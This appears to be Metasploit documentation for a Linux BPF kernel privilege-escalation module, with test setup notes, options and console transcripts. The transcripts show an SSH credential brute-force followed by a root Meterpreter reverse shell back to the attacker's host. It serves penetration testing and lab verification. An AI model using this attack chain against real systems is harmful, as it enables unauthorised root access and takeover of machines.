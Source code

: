 ## Notes

This module (and the original exploit) are written in several parts: hello, doubleput, and suidhelper.

Mettle at times on this exploit will give back an invalid session number error.  In these cases payload/linux/x64/shell/bind_tcp seemed to always work.

As of PR submission, the original shell becomes unresposive when the root shell occurs.  Metasm fails to compile due to fuse.h being required.

As of PR submission, killing of the process hello and doubleput has to occur manually.  /tmp/fuse_mount also needs to be unmounted and deleted.

## Creating A Testing Environment

There are a few requirements for this module to work:

  1. CONFIG_BPF_SYSCALL=y must be set in the kernel (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  2. kernel.unprivileged_bpf_disabled can't be set to 1 (default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  3. fuse needs to be installed (non-default on Ubuntu 16.04 (Linux 4.4.0-38-generic))
  
  Using Ubuntu 16.04, simply `sudo apt-get install fuse` and you're all set!

This module has been tested against:

  1. Ubuntu 16.04 linux-image-4.4.0-38-generic (pre-compile & live compile)
  2. Ubuntu 16.04 (default kernel) linux-image-4.4.0-21-generic (pre-compile & live compile)

This module was not tested against, but may work against:

  1. Fedora 24 < [kernel-4.5.4-300.fc24](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  2. Fedora 23 < [kernel-4.5.5-201.fc23](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  3. Fedora 22 < [kernel-4.4.10-200.fc22](https://bugzilla.redhat.com/show_bug.cgi?id=1334311)
  4. Debian >= 4.4~rc4-1~exp1, < Fixed in version [4.5.3-1](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=823603)
  5. Ubuntu 14.04.1 <= [4.4.0-22.39](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1578705/comments/3)

## Verification Steps

  1. Start msfconsole
  2. Exploit a box via whatever method
  4. Do: `use exploit/linux/local/bpf_priv_esc`
  5. Do: `set session #`
  6. Do: `set verbose true`
  7. Do: `exploit`

## Options

  **MAXWAIT**

  The first stage of this priv esc can take ~35seconds to execute.  This is the timer on how long we should wait till we give up on the first stage finishing.  Defaults to 120 (seconds)

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 16.04 (with Linux 4.4.0-38-generic)

#### Initial Access

    msf > use auxiliary/scanner/ssh/ssh_login
    msf auxiliary(ssh_login) > set rhosts 192.168.199.130
    rhosts => 192.168.199.130
    msf auxiliary(ssh_login) > set username ubuntu
    username => ubuntu
    msf auxiliary(ssh_login) > set password ubuntu
    password => ubuntu
    msf auxiliary(ssh_login) > exploit
    
    [*] SSH - Starting bruteforce
    [+] SSH - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare) Linux ubuntu 4.4.0-38-generic #57-Ubuntu SMP Tue Sep 6 15:42:33 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
    [!] No active DB -- Credential data will not be saved!
    [*] Command shell session 1 opened (192.168.199.131:39175 -> 192.168.199.130:22) at 2016-09-27 12:25:31 -0400
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed

#### Escalate

In this scenario, gcc and libfuse-dev are both installed so we can live compile on the system.

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [+] libfuse-dev is installed
    [+] gcc is installed
    [*] Live compiling exploit on system
    [*] Writing files to target
    [*] Writing hello to /tmp/hello.c
    [*] Max line length is 65537
    [*] Writing 2760 bytes in 1 chunks of 9767 bytes (octal-encoded), using printf
    [*] Writing doubleput to /tmp/doubleput.c
    [*] Max line length is 65537
    [*] Writing 5182 bytes in 1 chunks of 18218 bytes (octal-encoded), using printf
    [*] Writing suidhelper to /tmp/suidhelper.c
    [*] Max line length is 65537
    [*] Writing 352 bytes in 1 chunks of 1219 bytes (octal-encoded), using printf
    [*] Compiling all modules on target
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:43734) at 2016-09-27 12:26:06 -0400
    [*] Cleaning up...
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
    meterpreter > sysinfo
    Computer     : 192.168.199.130
    OS           : Ubuntu 16.04 (Linux 4.4.0-38-generic)
    Architecture : x86_64
    Meterpreter  : x64/linux
    
#### Escalate w/ pre-compiled binaries

It is possible to force pre-compiled binaries, however in this case we look at a system that doesn't have libfuse-dev (ubuntu) installed

    msf auxiliary(ssh_login) > use exploit/linux/local/bpf_priv_esc
    msf exploit(bpf_priv_esc) > set verbose true
    verbose => true
    msf exploit(bpf_priv_esc) > set session 1
    session => 1
    msf exploit(bpf_priv_esc) > set lhost 192.168.199.131
    lhost => 192.168.199.131
    msf exploit(bpf_priv_esc) > exploit
    
    [*] Started reverse TCP handler on 192.168.199.131:4444 
    [+] CONFIG_BPF_SYSCAL is set to yes
    [+] kernel.unprivileged_bpf_disabled is NOT set to 1
    [+] fuse is installed
    [-] libfuse-dev is not installed.  Compiling will fail.
    [*] Dropping pre-compiled exploit on system
    [*] Writing pre-compiled binarys to target
    [*] Max line length is 65537
    [*] Writing 9576 bytes in 1 chunks of 24954 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 13920 bytes in 1 chunks of 36828 bytes (octal-encoded), using printf
    [*] Max line length is 65537
    [*] Writing 8840 bytes in 1 chunks of 21824 bytes (octal-encoded), using printf
    [*] Writing payload to /tmp/AyDJSaMM
    [*] Max line length is 65537
    [*] Writing 188 bytes in 1 chunks of 506 bytes (octal-encoded), using printf
    [*] Starting execution of priv esc.  This may take about 120 seconds
    [+] got root, starting payload
    [-] This exploit may require process killing of 'hello', and 'doubleput' on the target
    [-] This exploit may requires manual umounting of /tmp/fuse_mount via 'fusermount -z -u /tmp/fuse_mount' on the target
    [-] This exploit may requires manual deletion of /tmp/fuse_mount via 'rm -rf /tmp/fuse_mount' on the target
    [*] Transmitting intermediate stager...(126 bytes)
    [*] Sending stage (2412016 bytes) to 192.168.199.130
    [*] Meterpreter session 2 opened (192.168.199.131:4444 -> 192.168.199.130:55522) at 2016-09-28 08:08:04 -0400
    
    meterpreter > getuid
    Server username: uid=0, gid=0, euid=0, egid=0
